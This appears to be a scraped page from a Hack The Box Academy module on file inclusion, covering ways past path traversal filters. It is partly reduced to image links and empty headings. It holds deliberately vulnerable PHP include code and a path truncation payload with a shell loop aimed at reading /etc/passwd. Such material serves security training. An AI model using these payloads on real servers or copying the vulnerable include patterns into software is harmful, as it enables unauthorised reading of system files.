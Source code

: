 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/23/section/1491
// Platform Version: V1
// Module ID: 23
// Module Name: File Inclusion
// Module Difficulty: Medium
// Section ID: 1491
// Section Title: Basic Bypasses
// Page Title: Hack The Box - Academy
// Page Number: 3
-->

# Basic Bypasses

**Module Name:** File Inclusion **Page Number:** 3

#### 

#### FILE INCLUSION

# Basic Bypasses

## Non-Recursive Path Traversal Filters

``` php
$language = str_replace('../', '', $_GET['language']);
```

![https://academy.hackthebox.com/storage/modules/23/lfi_blacklist.png](https://academy.hackthebox.com/storage/modules/23/lfi_blacklist.png)

![https://academy.hackthebox.com/storage/modules/23/lfi_blacklist_passwd.png](https://academy.hackthebox.com/storage/modules/23/lfi_blacklist_passwd.png)

## Encoding

![https://academy.hackthebox.com/storage/modules/23/burp_url_encode.jpg](https://academy.hackthebox.com/storage/modules/23/burp_url_encode.jpg)

![https://academy.hackthebox.com/storage/modules/23/lfi_blacklist_passwd_filter.png](https://academy.hackthebox.com/storage/modules/23/lfi_blacklist_passwd_filter.png)

## Approved Paths

``` php
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
    include($_GET['language']);
} else {
    echo 'Illegal path specified!';
}
```

![https://academy.hackthebox.com/storage/modules/23/lfi_blacklist_passwd_filter.png](https://academy.hackthebox.com/storage/modules/23/lfi_blacklist_passwd_filter.png)

## Appended Extension

#### Path Truncation

``` url
?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]
```

``` shell-session
ndefstathiou@htb[/htb]$ echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
non_existing_directory/../../../etc/passwd/./././<SNIP>././././
```

#### Null Bytes

# 

# 

#### Questions

####